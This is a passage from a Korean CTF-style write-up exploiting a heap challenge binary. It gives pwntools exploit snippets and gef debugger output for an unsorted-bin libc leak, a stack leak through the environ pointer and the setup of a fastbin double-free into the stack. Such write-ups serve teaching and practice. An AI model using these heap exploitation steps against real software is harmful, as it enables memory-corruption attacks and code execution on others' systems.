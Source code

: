 이제 `2222`를 `free`하면 `0x100`짜리 chunk를 `free`한 것으로 되어 unsorted bin으로 이동한다.
``` bash
────────────────────────── Unsorted Bin for arena at 0x7ffff7dd0b60 ──────────────────────────
[+] unsorted_bins[0]: fw=0x55555555d010, bk=0x55555555d010
 →   Chunk(addr=0x55555555d020, size=0x110, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
[+] Found 1 chunks in unsorted bin.
gef➤  x/4gx 0x55555555d010
0x55555555d010: 0x0000000000000000      0x0000000000000111
0x55555555d020: 0x00007ffff7dd0bc0      0x00007ffff7dd0bc0
```
이 과정에서 `free`된 chunk의 `fd`, `bk`에 `main_arena` 주소가 쓰여지고, 이후 `malloc`으로 해당 영역을 반환받아도 메모리를 초기화하지 않기 때문에 `check()`를 통해 leak이 가능하다.

다행히 `0x100`보다 작은 chunk를 요청해도 unsorted bin을 분할해서 할당해주기 때문에 대충 `0x30`짜리 chunk를 요청했다.
``` python
    save(s, 0x30, b"\xc0", b"2222")                 # alloc from unsorted bin
    r = check(s)
    arena = 0x3b4cc0
    libc = u64(r.split(b"2222 --> ")[1][:6] + b"\x00\x00") - arena
    log.info(f"libc : {hex(libc)}")
```
이 때 입력한 `\xc0`은 디버거로 확인한 `main_arena`의 첫 바이트인데 어차피 offset을 계산하면 되기 때문에 맞춰줄 필요는 없지만 입력을 아예 주지 않을 수는 없기 때문에 맞춰주었다.

### Stack leak
Libc leak을 성공했으니 `credential` overwrite와 `check()`를 이용하여 libc의 모든 영역을 출력할 수 있다.

Libc 영역 중 `environ` 변수에 stack 주소가 저장되어있으므로 이를 이용해 stack leak을 진행하였다.
``` python
    delete(s, b"0")
    environ = 0x3b75d8
    payload = b"0" * 0x20
    payload += p64(libc + environ)
    save(s, 0x30, b"AAAA", payload)
```
먼저 `0000`을 `free`하고 `1111`의 `credential`이 `environ`을 가리키도록 overwrite한다.
``` python
    r = check(s)
    stack = u64(r.split(b"1111 --> ")[1][:6] + b"\x00\x00") - 0x110
    log.info(f"stack : {hex(stack)}")
```
`1111`이 `environ`을 가리키고 있고 `check()`에서 `credential` 정보를 출력해주는 것을 이용해서 `environ`에 저장된 stack 주소를 획득할 수 있다.

### Fastbin dup into stack
앞서 `credential` overwrite 취약점을 이용해서 `credential`이 fake chunk를 가리키게 한 것과 비슷하게 다른 `credential`을 가리키게 해서 double free 취약점을 트리거할 수 있다.
``` python
    save(s, 0x60, b"FFFF", b"5555")
    save(s, 0x60, b"GGGG", b"6666")
    save(s, 0x60, b"HHHH", b"7777")
```
먼저 위 payload를 실행하면 `password` 구조체는 다음과 같은 값을 가지게 된다.
``` bash
gef➤
0x555555558128: 0x000055555555d1d0      0x0000000035353535
0x555555558138: 0x0000000000000000      0x0000000000000000
0x555555558148: 0x0000000000000000
gef➤
0x555555558150: 0x000055555555d160      0x0000000036363636
0x555555558160: 0x0000000000000000      0x0000000000000000
0x555555558170: 0x0000000000000000
gef➤
0x555555558178: 0x000055555555d240      0x0000000037373737
0x555555558188: 0x0000000000000000      0x0000000000000000
0x555555558198: 0x0000000000000000
```